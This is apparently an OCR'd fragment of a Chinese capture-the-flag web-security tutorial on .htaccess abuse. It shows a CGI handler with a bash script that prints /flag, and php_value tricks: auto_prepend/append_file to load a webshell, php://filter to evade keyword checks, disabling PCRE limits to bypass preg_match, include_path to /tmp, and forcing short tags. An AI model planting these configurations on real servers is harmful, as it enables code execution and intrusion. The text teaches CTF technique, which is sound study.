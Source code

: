 
```
Options +ExecCGI
AddHandler cgi-script .xx

```

```
#! /bin/bash

echo Content-type: text/html

echo ""

cat /flag

```

> 
用法五：<br/> 编辑.htaccess，内容为：<br/> 编辑webshell，内容为：<br/> 这种方式可通过php_value来配置PHP的配置选项；另外php_flag name on|off用来设定布尔值的配置指令<br/> 由图可知，.htaccess可以使两种配置模式生效：PHP_INI_PREDIR和PHP_INI_ALL<br/> 可查看php.ini配置选项列表，从中寻找可利用的配置项<br/> （1）使用文件包含的两个相关配置<br/> auto_prepend_file：指定一个文件，在主文件解析之前自动解析<br/> auto_append_file：指定一个文件，在主文件解析后自动解析<br/> 由于通过设置这两个选项进行文件包含，那么便可使用相关的php协议流，如php://filter，可用来绕过对一些关键字的检测<br/> （2）绕过preg_math的配置<br/> （3）利用inclue_path包含恶意文件<br/> （4）强制开启短标签<br/> （5）利用error log写本地文件 (html编码)


```
（1）
php_value auto_prepend_file webshell
or
php_value auto_append_file webshell

```

```
&lt;?=phpinfo();

```

```
（2）
php_value pcre.backtrack_limit 0
php_value pcre.jit 0

```

```
（3）
 php_value include_path "/tmp"

```

```
（4）
php_value short_open_tag 1

```
